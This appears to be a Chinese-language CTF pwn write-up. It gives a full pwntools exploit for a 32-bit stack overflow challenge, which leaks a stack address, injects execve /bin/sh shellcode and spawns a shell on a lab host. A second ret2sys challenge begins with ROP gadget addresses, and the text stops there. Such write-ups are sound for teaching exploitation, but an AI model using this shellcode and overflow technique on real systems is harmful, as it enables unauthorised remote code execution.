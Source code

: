 1. x86的shellcode
2. 对程序加载的认识：ASLR、PIE，NX保护
3. gdb动态调试
4. read函数深入理解
5. pwntools接收数据
6. python 字节流、字符串和int之间的关系及相互转化
```python
from pwn import *
# 设置上下文语境
context(log_level = 'debug', os = 'linux', arch = 'i386')
context.terminal = ['tmux','new-window']

#sh = process("./shellcode")
#sh = gdb.debug('./shellcode')
sh = remote("10.10.175.100",33681)
leak_stack_addr_str = sh.recvline().split(b" ")[-1]
leak_stack_addr = leak_stack_addr_str[2:-1] # 接收泄露的栈地址
offset = 0xffc4f08c-0xffc4f07f +4           # 这一步是动态调试测出来的，也可以手动计算。前面一个数字是执行的栈地址，后面一个数字是泄露的栈地址
exe_start_point = offset + int(leak_stack_addr,16)
print(hex(exe_start_point))
sh.recvline()

shellcode =asm('push 0x68732f')   #push "hs//"
shellcode +=asm('push 0x6e69622f')  #push "nib/"
shellcode +=asm('mov ebx, esp')	    #ebx <-esp   "/bin//sh"
shellcode +=asm('xor edx, edx')	    #edx = 0
shellcode +=asm('xor ecx, ecx')     #ecx = 0
shellcode +=asm('mov al, 0xb')	    #eax = 0xb
shellcode +=asm('int 0x80')	    #32 system
payload =b"das2q41assd45w\0"+(16-15)*b'a'
payload+=4*b'a'
payload+=p32(exe_start_point)
payload+=shellcode
sh.send(payload)
sh.recvline()
pause()
sh.send(b"aa aaa\0")

sh.interactive()
```
## ret2sys
难度：2.5*
### 考察知识点

1. 64位系统调用
2. 64位rop

![image.png](https://cdn.nlark.com/yuque/0/2023/png/38460676/1696565440731-e6c086ad-ef2c-4629-af52-78eefeff90e4.png#averageHue=%23032855&clientId=u7d3eebdb-2909-4&from=paste&height=417&id=u71457b7e&originHeight=521&originWidth=776&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=65310&status=done&style=stroke&taskId=ubbf3e7be-20da-43a7-84d9-be066bd90da&title=&width=620.8)
```python
from pwn import *

is_local=0
if is_local:
    io=process("./build/pwn")
else:
    io=remote("10.10.175.100",33237)

elf=ELF("./build/pwn")

bin_sh=next(elf.search(b"/bin/sh"))
rdi_ret=0x401270
rsi_rdx_ret=0x401272 
rax_ret=0x40126e 
```